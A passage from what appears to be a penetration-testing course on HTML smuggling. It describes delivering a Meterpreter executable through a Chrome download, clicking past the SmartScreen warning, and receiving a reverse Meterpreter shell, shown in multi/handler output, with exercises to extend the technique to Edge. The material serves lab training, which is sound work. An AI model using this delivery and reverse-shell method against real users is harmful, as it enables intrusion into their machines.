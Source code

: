 ```
        </script>
    </body>
</html>
```

> Listing 15 - Complete JavaScript code to trigger HTML smuggling

After saving the webpage to the web root of our Apache server, we can browse to it using Google Chrome from the Windows 10 victim machine. Just browsing the file will cause a trigger to download the executable. Unfortunately, a warning may be displayed due to the potentially unsafe file format, as shown in Figure 1.

Note that we chose to browse to the HTML file with Google Chrome since it supports _window.URL.createObjectURL_. This technique must be modified to work against browsers like Internet Explorer and Microsoft Edge.

![Figure 1: Meterpreter executable is downloaded through HTML smuggling](https://static.offsec.com/offsec-courses/PEN-300/imgs/csceo/6df5bfc72dc326aad5c80fa4dde018ab-csceo_smuggle.png)

Figure 1: Meterpreter executable is downloaded through HTML smuggling

This warning may appear because the attachment is saved as an executable. We will ignore this warning and download and run it anyway.

The reason this happens is because the executable originated from a download through a browser. When that happens, it is marked as such in Windows and the _SmartScreen_[12](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_93-12) feature tries to block execution. We must click _More info_ followed by _Run anyway_ to execute it.

After running the new executable in the Downloads folder, we obtain a reverse Meterpreter shell using the multi/handler.

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: kh1ubovt) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.11:49697)

meterpreter >
```

> Listing 16 - Meterpreter shell from the executable downloaded through HTML smuggling

**Exercises**

1. Repeat the HTML smuggling to trigger a download of a Meterpreter payload in a file format of your choosing.
2. Modify the smuggling code to also use the _window.navigator.msSaveBlob_[13](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_93-13),[14](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_93-14) method to make the technique work with Microsoft Edge as well.
